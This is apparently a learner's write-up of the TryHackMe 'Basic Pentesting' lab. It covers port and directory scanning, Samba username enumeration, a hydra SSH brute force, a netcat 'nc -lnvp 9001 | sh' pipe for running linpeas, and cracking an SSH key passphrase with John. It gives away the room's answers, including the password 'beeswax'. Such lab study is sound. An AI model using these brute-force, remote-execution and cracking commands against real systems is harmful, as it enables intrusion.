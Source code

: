 # [THM] BASIC PENTESTING (not done yet)

First, I did the usual scanning with nmap, nikto, and gobuster (dir) on the address.

```bash
nmap -sV -oN nmap.initial <address>
```
![nmap.initial](img/BASIC_PEN_NMAPv1.png)

```bash
gobuster -u http://<address>/ -w common.txt
```
![gobusterv1](img/BASIC_PEN_GOBUSTERv1.png)

Looks like they have a "/development" directory and I answered the first question with it!

![development](img/ANS_development.png)

Moving on, the development endpoint gave us access to the dev notes. 

![development.dir](img/development_dir.png)


The dev.txt file did have something interesting in it, but it gave me the false clues that will waste a lot of my energy during the stream.

The j.txt on the other hand 

![j.txt](img/jtxt.png)

Based on the message, it looks like I will use the password cracker "john" for later.

After that I set on an adventure on the obfuscated part of the Try Hack Me room and wasted a lot of energy and time. I finally got over the apache and struts clues from the dev.txt file. 

So I took a good look at the nmap output once more and saw that the samba service is available. Which means that we can enumerate usernames with it. 

![smb-open](img/smb-open.png)

I came across a tool called "Enum4Linux" and it game me more problems due to old development packages and stuff.

I eventually made it work and tried to figure out how to actually use it to enumerate usernames. It took some time and even tried other solutions and tools but I found the usernames with the command: 
```
enum4linux.py -A -R <address>
```

![usernames](img/usernames.png)

Now I have our answer! The other username is "kay" BTW.
![jan-uname](img/jan-uname.png)
![kay-uname](img/kay-uname.png)

For jan's password, I used "hydra" to brutefoce the ssh with the rockyou.txt wordlist.

```
hydra -l jan -P rockyou.txt ssh://<address>
```

![jan-paswd](img/jan-paswd.png)

there goes the password, and I also answered the next question with "SSH". Now that we have the password, we can now get in to a shell:
![shell](img/wein.png)

Then lastly, we will have to get Kay's password. 

I tried to browse the common directories first for clues and found a private id_rsa file on kay's .ssh dir with reading permsions for all users. 
![kayrsa](img/kay-id_rsa.png)

So I copied it and tried to connect to the shell with it. Sadly, It prompt me for a passphrase for the key.

![rsapass](img/rsapass.png)

I don't like using tools made by other people without know what it does, but the room made me do it Script Kiddie FTW. So I decided to use linpeas.

So I downloaded linpeas and sent the file using wget "--post-file" on my local computer, then executing it in the target system with netcat piped to sh:
```
nc -lnvp 9001 | sh
```

As expected, I did not understood all of the output linepeas is giving me. I wasted a lot more time fiddling with linpeas only to find out I was wasting more time.

At this rate I resorted on watching JohnHammond's video on solving this room. I was surprised we both used linpeas in this. What JH saw in the linpeas was the readable private id_rsa file which I already found before using linpeas. What's new is that that we can crack the passhrase of that private rsa file with the "john" tool. 
I stopped watching JH's video and proceed to researching about how to actually do it.


There is no shame to rely on writeups when you are stuck as long as you are learning. 

I needed to turn the rsa file to a hash which john can read with ssh2john.py then tried to crack it and failed. It says no hash even though I already converted it.

![nohash](img/nohash.png)

I was surprised and mad when it didn't work. I watched John Hammond's video again and he did the same thing I did but his got through and I accidentally saw the password.

But I did not give up. I wanted get the password on my own. So I researched more about john and found out that there is another version of john which can read hashes from ssh2john.py called john (Jumbo)

I installed the Jumbo version using snap and tried the command once more:

![beeswax](img/beeswax.png)

And now I was presented with the password "beeswax"

we can now login as kay and cat the pass.bak file in kay's home directory and finish the room.

![kay-pass](img/kay-pass.png)
![DONE](img/done.png)

DONE!